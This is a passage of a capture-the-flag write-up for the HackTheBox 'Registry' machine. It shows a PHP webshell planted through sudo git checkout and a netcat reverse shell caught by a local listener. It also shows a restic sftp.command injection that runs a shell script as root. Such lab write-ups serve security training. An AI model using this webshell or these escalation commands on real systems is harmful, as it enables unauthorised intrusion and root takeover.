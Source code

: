 ```
bolt@bolt:/var/tmp/a$ sudo -u git /usr/bin/git checkout * 
error: unable to unlink old 'blabla': Permission denied
bolt@bolt:/var/tmp/a$ ls -l /var/www/html/snow.php
-rw-r--r-- 1 git www-data 29 Oct 20 23:43 /var/www/html/snow.php

bolt@bolt:/var/tmp/a$ cat /var/www/html/snow.php 
<?php system($_GET["c"]) ?>;
```

![](/assets/images/htb-writeup-registry/Screenshot_4.png)

I tried to get a reverse shell but I couldn't so I assume there is a firewall blocking outbound connection. No matter, there is netcat already on the box so I can start a local listener as user `bolt` and proceed from there. I created a `/tmp/shell.sh` that contains a standard reverse shell using netcat and called it from my webshell. 


```
bolt@bolt:~$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 127.0.0.1 60286 received!
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privilege escalation

More sudo privileges! This is probably the way to get root access. I need to abuse the restic backup system to get RCE as root.

```
$ sudo -l
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:[...]

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```

## Unintended method

We can pass special parameters to the restic backup application to specify how we want to establish the SSH connection for remote backups. By abusing this parameter we can effectively run any command we want as root. In this case I'll just call another reverse shell back to me and gain root access.

`sudo /usr/bin/restic backup -r rest/ -r sftp:bolt@127.0.0.1:/var/tmp/xyz -o sftp.command="/tmp/shell.sh" /root/root.txt`

